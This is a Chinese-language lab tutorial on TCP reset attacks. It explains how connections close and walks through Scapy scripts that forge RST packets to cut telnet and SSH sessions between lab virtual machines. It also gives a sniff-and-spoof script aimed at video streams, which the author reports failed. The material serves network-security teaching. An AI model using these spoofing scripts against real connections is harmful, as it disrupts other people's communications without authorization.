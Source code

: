 # TCP复位攻击

TCP复位攻击的目标是破坏两个主机之间已存在的连接。

## 关闭TCP连接

方式一：  
1、A没有更多数据传给B时，发送FIN包给B  
2、B收到后，回复ACK包，A到B的连接就关闭了，但B到A连接依旧保持  
3、如果B也要关闭到A的连接，发送FIN，A回复ACK，就关闭  

方式二：  
只需发送RST包，连接立刻中断，主要用在没有时间或者无法使用FIN协议的紧急情况。  
比如发现SYN泛洪攻击。  

## TCP复位攻击的条件

假冒的方式发送RST包来中断连接，叫TCP复位攻击。  
要成功实现攻击，要正确设置：  
1、源和目的IP地址、端口号  
2、序列号  

!!! Note

    把攻击者和受害者放在同一个网络，可以降低猜测序列号的难度
    
## telnet连接中的TCP复位攻击

1、客户端telnet到服务端  
![telnet到服务端](../img/tcp-client-telnet.png)

2、确定需要设置的参数    
找到和虚拟机同网段的网卡是vmnet8  
![找到和虚拟机同网络的网卡](../img/tcp-netcard.png)

设置监听的网卡：  
![设置wireshark](../img/tcp-wireshark-set.png)

客户端运行简单的ls命令
![客户端命令](../img/tcp-client-ls.png)

Wireshark上抓到服务端发给客户端的包：
![抓到包](../img/tcp-wireshark-package.png)

!!! 安装wireshark

    https://www.wireshark.org/download.html
    
可以看到源端口号23，目标端口号40482，下一个序列号2445021732

3、宿主机发动复位攻击

```python
#!/usr/bin/python
import sys
from scapy.all import *

print("SENDING RESET PACKET.....")
IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
TCPLayer = TCP(sport=23, dport=40482, flags="R", seq=2445021732)
pkt = IPLayer/TCPLayer
ls(pkt)
send(pkt, verbose=0)
```

4、可以看到客户端telnet被断开
![客户端被断开](../img/tcp-client-broker.png)

!!! warning

    wireshark中找序列号容易出错，一定要找最后一行服务端发给客户端的包  
    要用sudo权限

## SSH连接中的TCP复位攻击

!!! ssh连接

    SSH的TCP连接是加密的，但是只加密了TCP数据，而不加密TCP头。即这个加密是在网络层之上的传输层进行的。因为
    TCP复位攻击只需要伪造TCP头部，不需要加装任何数据，故TCP复位攻击可以成功。

1、客户端ssh到服务端
![正常ssh](../img/tcp-ssh-normal.png)

2、确定需要设置的参数  
![抓ssh包](../img/tcp-ssh-wireshark.png)

可以看到源端口号22，目标端口号44950，下一个序列号2920417518  

3、宿主机发动复位攻击

```python
#!/usr/bin/python3
import sys
from scapy.all import *

print("SENDING RESET PACKET.....")
IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
TCPLayer = TCP(sport=22, dport=44950, flags="R", seq=2920417518)
pkt = IPLayer/TCPLayer
ls(pkt)
send(pkt, verbose=0)
```
![发动攻击](../img/tcp-attack-ssh.png)

4、可以看到客户端ssh被断开
![被攻击](../img/tcp-ssh-beattack.png)

!!! warning

    wireshark输入ssh过滤显示  
    发动攻击时一定要用sudo权限！  

## 视频流连接中的TCP复位攻击

!!! 视频流攻击难点

    在于如何找序列号，这个过程不能在telnet终端输入任何内容，否则下一个序列号值会增加，由于没有办法停止
    客户端和服务器之间的数据包，因此序列号增长的很快，无法使用手动方式来攻击。

```python
#!/usr/bin/python3
from scapy.all import *


def spoof_tcp(pkt):
    IPLayer = IP(dst="192.168.230.1", src=pkt[IP].dst)
    TCPLayer = TCP(flags="R", seq=pkt[TCP].ack, dport=pkt[TCP].sport, sport=pkt[TCP].dport)
    spoofpkt = IPLayer/TCPLayer
    send(spoofpkt, verbose=0)

pkt = sniff(filter='tcp and src host 192.168.230.1', prn=spoof_tcp)

```

1、打开youtube.com的某一个视频  
2、执行攻击脚本，没有达到预期效果  

!!! warning

    ubuntu虚拟机提供的firefox浏览器无法播放视频，改成用宿主机播放，执行脚本不起作用



